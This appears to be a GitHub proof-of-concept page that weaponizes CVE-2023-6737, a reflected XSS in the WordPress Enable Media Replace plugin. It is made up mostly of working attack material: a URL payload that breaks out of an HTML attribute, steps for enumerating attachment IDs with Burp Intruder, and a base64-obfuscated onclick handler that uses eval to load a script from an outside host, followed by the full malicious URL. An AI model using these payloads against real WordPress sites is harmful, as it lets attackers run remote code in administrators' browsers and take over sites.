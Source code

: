 https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-6737

>[!note]
> I do not take credit for finding this, I only simply weaponized it as it was missing technical details on exploitation.

## Admin+ Reflected XSS

```
/wp-admin/upload.php?page=enable-media-replace%2Fenable-media-replace.php&action=media_replace&attachment_id=26&SHORTPIXEL_DEBUG=%22+onclick=alert(1)>
```

We have full attribute control and leverage `%22` to breakout of the attribute. Attempting to add remote scripts outside of the html node will result in additional filtering. 

![Screenshot3](screenshot3.png)

### Weaponization of Onclick Attribute

Firstly, you may enumerate attachment IDs via the following (Unauthenticated). A valid attachment ID will provide a valid page. Simply throw in the URL into burpsuite intruder and do a number list to enumerate a valid attachment ID

```
http://localhost:1337/?attachment_id=32
```

> Un-base 64'd script include
```
echo 'var s = document.createElement("script"); s.src = "https://script.com"; document.body.appendChild(s);' | base64
```

> Base64
```
dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK
```


> Malicious Onclick
```
onclick=javascript:eval(atob(`dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK`))
```

> Full URL
```
/wp-admin/upload.php?page=enable-media-replace%2Fenable-media-replace.php&action=media_replace&attachment_id=26&SHORTPIXEL_DEBUG=%22+onclick=javascript:eval(atob(`dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK`))
```
